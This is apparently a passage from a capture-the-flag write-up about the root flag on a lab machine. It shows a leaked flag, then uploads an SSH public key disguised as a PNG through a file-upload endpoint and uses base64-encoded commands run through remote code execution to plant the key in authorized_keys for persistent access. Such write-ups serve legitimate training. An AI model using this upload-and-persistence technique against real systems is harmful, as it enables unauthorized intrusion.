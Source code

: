 ```
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.10
Date: Thu, 29 Dec 2022 15:03:47 GMT
Content-Type: application/json
Content-Length: 102
Vary: Cookie
Connection: close

{"message":"Invalid file extension: ASCII text\nwgmy{baad129d9b78adf480157bca10d92371}","status":500}

```

### root.txt

> 🚧 **Description** : Root flag located in /root/root.txt

In order to get stable shell, we can ssh to the machine by adding ssh key to authorize_keys. Before this, im using rsa key but one writeup from richard parker team are using `ed25519` because of much faster and public key are smaller than rsa. You can generate `ed25519` key using `ssh-keygen`.

```bash
❯ ssh-keygen -t ed25519 -C "hek@hek.com"
```

Once it generated, it will be saved at `~/.ssh/id_ed25519.pub`. The flow gonna be like this.

- Upload `id_ed25519.pub` to the server using upload features (change the extensions)

```http
POST /api/upload HTTP/1.1
Host: 10.10.56.213:3000
Content-Length: 2950
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.56.213:3000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBp8wD0KdqyP7IIjQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.56.213:3000/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJwljktuAzEMQ-_idRey5Z9ymYFFSUhQoAVmklXRu9dBl3wgwfeTjjj9uqfb83z5Rzoelm4JOr3A0LgKtRpLSSUyaCHUMnUFLE9Ck167vnFD7THDQyK8DtAUeVdHji7VnHJTosJdnBg8lvKCUlmNRcWCw6ZKh8wwpC3yuvz8tyk74jrjeH5_-tcGE5lLNxDbftk7R54NM8RlobMOX-qjpd8_FwJB_A.Y7OfDg.jCVyeNjj9Hza_5PegigQoIhNfyA
Connection: close

------WebKitFormBoundaryBp8wD0KdqyP7IIjQ
Content-Disposition: form-data; name="file"; filename="id_ed25519.png"
Content-Type: image/png

ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEBtY/QPeKmTlOiIyOQTZwUDUKSK9NvYQBL08XaWv0nE qi@qi.com

------WebKitFormBoundaryBp8wD0KdqyP7IIjQ--
```
- Use RCE to create `/home/user/.ssh` directory
```bash
❯ echo "mkdir /home/user/.ssh" | base64 -w 0
```
- Read `id_ed25519` file and save it to `/home/user/.ssh/authorized_keys` like below. If you try to `ls` all files in current directory, it will append `uploads` in front of the filename. For example, I uploaded a png file named `id_ed25519.png`, so the system will saved it as `uploadsid_ed25519.png`. Bad code from programmer tho.
```bash
❯ echo "cat uploadsid_ed25519.png > /home/user/.ssh/authorized_keys" | base64 -w 0
```